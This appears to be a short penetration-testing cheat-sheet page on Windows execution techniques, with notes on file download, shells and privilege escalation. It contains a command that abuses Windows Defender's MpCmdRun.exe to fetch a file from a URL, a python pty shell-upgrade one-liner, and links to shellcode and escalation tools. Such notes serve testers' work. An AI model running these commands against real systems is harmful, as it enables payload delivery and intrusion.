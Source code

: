 ```yaml
---
layout: post
title: / pen / win / exec
category: pen
parent: cheatsheets
modified_date: 2023-07-16
permalink: /pen/win/exec
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [payload](#payload)
	* [pbuild](#pbuild)
	* [psign](#psign)
	* [sources](#sources)
* [dl](#dl)
* [rshell](#rshell)
* [escalation](#escalation)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='dl'></a>dl
dl = download
* [/sys/powershell#transfer-http](/sys/powershell/transfer-http)
* [/dev/snippet#python-dl](/dev/snippet#python-dl)
* [juggernaut-sec](https://juggernaut-sec.com/windows-file-transfers-for-hackers/)
```sh
# download
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path>
```

## <a name='rshell'></a>rshell
[database](https://shell-storm.org/shellcode/index.html)
```sh
# run bash via python
python -c 'import pty; pty.spawn("/bin/bash")'
```

## <a name='escalation'></a>escalation

[PrivescCheck.ps1](https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1)